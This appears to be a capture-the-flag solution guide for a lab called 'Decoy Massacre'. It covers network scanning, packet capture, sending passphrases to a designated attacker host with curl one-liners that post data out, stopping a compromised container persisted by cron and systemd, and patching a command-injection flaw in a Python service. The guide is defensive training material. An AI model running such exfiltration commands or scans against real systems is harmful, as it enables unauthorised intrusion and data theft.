


# Decoy Massacre

*Solution Guide*

## Overview

The challenger is tasked with sending identified data in the environment to the attacker machine while killing compromised connections and remediating vulnerable services.

## Token 1

*There is a secret passphrase hosted on the HoneyNet. To distract the attacker, identify the passphrase and send it to the attacker machine.*

First, we must locate the attacker machine. We know that the attacker is coming from the outside, so we can run a quick scan against the WAN network:

```bash
nmap -sn 123.45.67.0/24
```

This will take about 30 seconds to complete. Eventually, it will reveal a machine at `123.45.67.100` on the WAN. While this is running, we can open a new terminal to find the passphrase on the network. When the scan is complete, you will get the following result:


The secret passphrase is hosted by multiple web servers in the environment. First, we must identify the subnets in the environment. To do this, we can run:

```bash
ip route
```

This will reveal the router that is connected to more subnets residing at 10.5.5.1:


We can `ssh` into the router using the provided credentials to further enumerate the network and reveal all connected machines:

```bash
ssh user@10.5.5.1
```

and then run the command again:

```bash
ip neighbor
```

This will reveal all of the devices connected to the router:


To make this easier to come back to later, we can take the output of this command and save it on a file on the local `kali-challenger` machine:

```bash
ssh user@10.5.5.1 ip neighbor | grep "10." | cut -d " " -f 1 > hosts.txt
```

We can confirm this was done correctly by running:

```bash
cat hosts.txt
```


Now that we have a list of IP addresses, we can use `nmap` to locate any web servers on the network:

```bash
nmap -iL hosts.txt -p 80
```

This will reveal many machines with port 80 open:


We can use `curl` to see what information is being hosted on port 80 on these machines. You will notice that some machines do not respond with any data despite port 80 being open, providing a clue that these are running a different service than a web service.

However, if we `curl` any of the following IP addresses:

- 10.1.1.10
- 10.2.2.10

Then you will see a string of characters that will be the passphrase you need to send:

```bash
curl 10.1.1.10
```



Now that we have this data, we can send it to the attacker. 

First, we can enumerate the attacker machine using `nmap`:

```bash
nmap 123.45.67.100
```

This will reveal ports 80 and 22 are open:


To send the passphrase to the attacker machine, we can run the one-liner:

```bash
curl --data-raw "$(curl 10.1.1.10)" 123.45.67.100
```

You will get a response saying your data was "Received when not allowed," indicating success:


To check your work and acquire the token, you can open a web browser and navigate to https://[]()challenge.us/ and click "grade challenge" to get your token:


## Token 2

*There is a secret passphrase being sent in-between machines on the HoneyNet. To distract the attacker, identify the passphrase being exchanged and send it to the attacker machine.*

First, we need to identify the hosts that are communicating. To do this, we can `ssh` into the router using the provided credentials and run:

```bash
ssh user@10.5.5.1
```

Then run `tcpdump` for 20 seconds on all interfaces and save it to a file:

```bash
timeout 20s tcpdump -w out.pcap -i any
```


In a new terminal, we can copy the file using `scp` and open it using `wireshark`:

```bash
scp user@10.5.5.1:/home/user/out.pcap .
wireshark out.pcap &
```

This will reveal connections:


The one we are interested in is the connection between 10.1.1.30 and 10.2.2.20. We can use the filter `ip.addr == 10.1.1.30` to narrow down the search:


If we pick one of the captures, we can right-click and navigate to Follow > TCPStream, revealing an encrypted message:


At this point, we have identified that there is an encrypted message being sent between 10.1.1.30 and 10.2.2.20 but we're not sure what it is.

The easiest way to get this raw message is to enumerate these machines. 

If we use `nmap` to scan all ports, we will notice that there is port 80 open on 10.1.1.30 and no ports open on 10.2.2.20:

```bash
nmap -p- -T4 10.1.1.30
nmap -p- -T4 10.2.2.20
```


If we use `curl` against 10.1.1.30, we can confirm that it is not a web server and that it is accepting other kinds of requests via port 80:

```bash
curl 10.1.1.30
```


If we run `show ip neighbors` on the VyOS router, we will notice that a lot of the IP address assignments have the same IP addresses in their respective networks, indicating that these may not be real machines:

```bash
ssh user@10.5.5.1
show ip neighbors
```


The only way to successfully enumerate this machine is from the machine residing at 10.1.1.5, which we can `ssh` into using the provided credentials:

```bash
ssh user@10.1.1.5
```

Running `ip n` will show reachable neighbors from this machine, but it will suspiciously show only the router:

```bash
ip n
```


Showing the list of networks on this machine will reveal that Docker is running network services as well:

```bash
ip a
```


We can run `docker ps` to reveal the 3 containers running on this machine and their running commands:

```bash
docker ps
```


Inspecting any of these containers will reveal the IP addresses associated with them and confirm that `sir-tintee` is the container with the IP address of 10.1.1.30:

```bash
docker inspect sir-tintee | grep IPAddress
```


To get the passphrase inside the tunnel, we can look at the logs generated by this container, revealing the message:

```bash
docker logs sir-tintee | tail
```


For simplicity, we can use this text to send to the attacker machine like we did for the previous token:

```bash
curl --data-raw "$(docker logs sir-tintee | tail | awk '/Server!/{print $5; exit}')" http://123.45.67.100
```


You can then navigate in a web browser to the grading page like before and receive Token 2:


## Token 3

*Identify and turn off any compromised machines.*

*CAREFUL* This task requires you to find and turn off the compromised host. Turning off other hosts or containers may break part 3. Be sure to not turn off any containers or hosts unnecessarily.

From token 2, we now know that addresses ending in `.5` are real machines and addresses ending in `.10`, `.20`, and `.30` are containers running on the `.5` machine in the respective subnet. 

Looking at the `.pcap` file gathered from Token 1 in `wireshark`, we can identify any ongoing connections to the attacker machine by adding the filter: `ip.addr == 123.45.67.100`

This will quickly identify that the machine at 10.1.1.20 is currently compromised and sending traffic to the attacker machine:


We can `ssh` into the `.5` machine:

```bash
ssh user@10.1.1.5
```

We can inspect the running container `sir-tiffycashien` to confirm that it is the container with an IP address of 10.1.1.20:

```bash
docker inspect sir-tiffycashien | grep IPAddress
```


Then we can attempt to stop the container and then confirm that it has stopped:

```bash
docker stop sir-tiffycashien
docker ps
```

However, we can see that the command worked, but something is starting the container back up:


To see what is happening, we can check the system logs for any instances of the container:

```bash
cat /var/log/syslog | grep sir-tiffycashien
```

We will see that there is a `cron` job keeping the container open:


To fix this, we can edit the `crontab` and delete all lines:

```bash
crontab -e
```




Then restart the `cron` service:

```bash
sudo systemctl restart cron
```

However, we will see after running the `docker stop` command that this did not fix the issue on its own, indicating there is something else keeping it on:

```bash
docker stop sir-tiffycashien
docker ps
```


Checking the latest logs in `/var/log/syslog` will give us another clue about what is going on:

```bash
cat /var/log/syslog | tail
```

This will reveal a systemd service named `dockerlive.service`:


We can check the status of this service, revealing that it is running the same command as the crontab:

```bash
sudo systemctl status dockerlive.service
```


Now we can finally kill the service and the container:

```bash
sudo systemctl stop dockerlive.service
sudo systemctl disable dockerlive.service
docker stop sir-tiffycashien
docker ps
```


Now we can navigate to the web browser to initiate grading and acquire the third token.

## Token 4

*Identify any vulnerable services running and remediate them. **NOTE** To get this token, the machine containing the vulnerable service must be alive and remediated.*

To detect vulnerable machines, we can run a scanner against machines in the 10.7.7.x network, as this is the DMZ network and is the most susceptible to being attacked. We can also choose port 80 to scan, as we know that this port has been used throughout all of the containers so far:

```bash
nmap -p 80 10.7.7.0/24
```

This will reveal that the following containers are running with port 80 open:

- 10.7.7.10
- 10.7.7.30

Next, we can `curl` the IP addresses to see if they are serving a web service or something else:

```bash
curl 10.7.7.10
curl 10.7.7.30
```

This will reveal that `10.7.7.30` is running another web service identical to the ones from token 2, but `10.7.7.10` is doing something different:


Next, we can `ssh` into the DMZ machine:

```bash
ssh user@10.7.7.5
```

Then check the running containers:

```bash
docker ps
```


We can check the list of docker networks to see any network types that would give these containers their own IP addresses:

```bash
docker network ls
```

This will show the `ipvlan` network type associated with `main`:


Inspecting the docker network will show us all of the containers and their associated IP addresses connected to this network:

```bash
docker inspect network main
```

We will identify that the `10.7.7.10` machine is the docker container named `sir-plus`:


**NOTE** It is critical that the container we create later has the same network and naming configuration as the original. 

To gather the container's configuration, we can run:

```bash
docker inspect sir-plus
```

From this output, we know that the name and hostname of the container is `sir-plus`, the network is `main`, the IP address is `10.7.7.10`, port 80 is exposed, and `restart` is set to `always`. All of this information will be needed later:


Next, we can save a copy of the `/app/app.py` file in our current directory from the container:

```bash
docker exec sir-plus cat /app/app.py > app.py
```

And then edit the file using your preferred text editor. For this guide, we will be using `vim`:

```bash
vim app.py
```

Inspecting the file, we will see that the vulnerability is on line 25.

On line 18, the `data` variable stores the information being accepted from a connection to a client:


And on line 25, we can see that a shell will open and execute the data as a command:


The simplest way to fix this vulnerability is to comment out line 25 and then save the file:


Now we need to create a new docker container with the same configuration as the current running container. To do this, we need to execute the following steps in order:

1. Stop the container
1. Delete the container
1. Delete the container's image (Optional)
1. Build a new Docker image with the new python file
1. Create a new container with the same configuration as the original.

To do the first 3 steps, we can execute the following:

```bash
docker stop sir-plus
docker rm sir-plus
docker image rm decoy1
```


Next, we need to create a Dockerfile to create the new image from named `Dockerfile` in your current directory using your preferred text editor:

```bash
vim Dockerfile
```

Your `Dockerfile` should contain the following:

```Dockerfile
FROM decoy2 # Or any of the other images

EXPOSE 80

COPY app.py /app/app.py

CMD [ "python3", "/app/app.py" ]
```

Then build the container:

```bash
docker build -t decoy1 .
```


Finally, run the container using the configuration gathered